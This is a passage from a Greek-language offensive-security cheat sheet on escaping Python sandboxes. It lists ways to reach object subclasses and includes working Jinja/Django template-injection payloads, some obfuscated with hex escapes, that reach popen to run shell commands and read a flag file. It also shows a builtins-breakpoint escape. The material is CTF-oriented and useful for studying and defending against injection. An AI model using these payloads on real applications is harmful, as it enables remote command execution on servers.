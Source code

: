 Εδώ θέλω να εξηγήσω πώς να ανακαλύψετε εύκολα **πιο επικίνδυνες λειτουργίες που έχουν φορτωθεί** και να προτείνω πιο αξιόπιστους εκμεταλλευτές.

#### Πρόσβαση σε υποκλάσεις με παρακάμψεις

Ένα από τα πιο ευαίσθητα μέρη αυτής της τεχνικής είναι η ικανότητα να **προσεγγίζετε τις βασικές υποκλάσεις**. Στα προηγούμενα παραδείγματα αυτό έγινε χρησιμοποιώντας `''.__class__.__base__.__subclasses__()` αλλά υπάρχουν **άλλοι πιθανοί τρόποι**:
```python
#You can access the base from mostly anywhere (in regular conditions)
"".__class__.__base__.__subclasses__()
[].__class__.__base__.__subclasses__()
{}.__class__.__base__.__subclasses__()
().__class__.__base__.__subclasses__()
(1).__class__.__base__.__subclasses__()
bool.__class__.__base__.__subclasses__()
print.__class__.__base__.__subclasses__()
open.__class__.__base__.__subclasses__()
defined_func.__class__.__base__.__subclasses__()

#You can also access it without "__base__" or "__class__"
# You can apply the previous technique also here
"".__class__.__bases__[0].__subclasses__()
"".__class__.__mro__[1].__subclasses__()
"".__getattribute__("__class__").mro()[1].__subclasses__()
"".__getattribute__("__class__").__base__.__subclasses__()

# This can be useful in case it is not possible to make calls (therefore using decorators)
().__class__.__class__.__subclasses__(().__class__.__class__)[0].register.__builtins__["breakpoint"]() # From https://github.com/salvatore-abello/python-ctf-cheatsheet/tree/main/pyjails#no-builtins-no-mro-single-exec

#If attr is present you can access everything as a string
# This is common in Django (and Jinja) environments
(''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(132)|attr('__init__')|attr('__globals__')|attr('__getitem__')('popen'))('cat+flag.txt').read()
(''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fmro\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')(1)|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('popen'))('cat+flag.txt').read()
```
### Εύρεση επικίνδυνων βιβλιοθηκών που έχουν φορτωθεί

Για παράδειγμα, γνωρίζοντας ότι με τη βιβλιοθήκη **`sys`** είναι δυνατή η **εισαγωγή αυθαίρετων βιβλιοθηκών**, μπορείτε να αναζητήσετε όλα τα **modules που έχουν φορτωθεί και περιέχουν την εισαγωγή του sys**:
```python
[ x.__name__ for x in ''.__class__.__base__.__subclasses__() if "wrapper" not in str(x.__init__) and "sys" in x.__init__.__globals__ ]
['_ModuleLock', '_DummyModuleLock', '_ModuleLockManager', 'ModuleSpec', 'FileLoader', '_NamespacePath', '_NamespaceLoader', 'FileFinder', 'zipimporter', '_ZipImportResourceReader', 'IncrementalEncoder', 'IncrementalDecoder', 'StreamReaderWriter', 'StreamRecoder', '_wrap_close', 'Quitter', '_Printer', 'WarningMessage', 'catch_warnings', '_GeneratorContextManagerBase', '_BaseExitStack', 'Untokenizer', 'FrameSummary', 'TracebackException', 'CompletedProcess', 'Popen', 'finalize', 'NullImporter', '_HackedGetData', '_localized_month', '_localized_day', 'Calendar', 'different_locale', 'SSLObject', 'Request', 'OpenerDirector', 'HTTPPasswordMgr', 'AbstractBasicAuthHandler', 'AbstractDigestAuthHandler', 'URLopener', '_PaddedFile', 'CompressedValue', 'LogRecord', 'PercentStyle', 'Formatter', 'BufferingFormatter', 'Filter', 'Filterer', 'PlaceHolder', 'Manager', 'LoggerAdapter', '_LazyDescr', '_SixMetaPathImporter', 'MimeTypes', 'ConnectionPool', '_LazyDescr', '_SixMetaPathImporter', 'Bytecode', 'BlockFinder', 'Parameter', 'BoundArguments', 'Signature', '_DeprecatedValue', '_ModuleWithDeprecations', 'Scrypt', 'WrappedSocket', 'PyOpenSSLContext', 'ZipInfo', 'LZMACompressor', 'LZMADecompressor', '_SharedFile', '_Tellable', 'ZipFile', 'Path', '_Flavour', '_Selector', 'JSONDecoder', 'Response', 'monkeypatch', 'InstallProgress', 'TextProgress', 'BaseDependency', 'Origin', 'Version', 'Package', '_Framer', '_Unframer', '_Pickler', '_Unpickler', 'NullTranslations']
```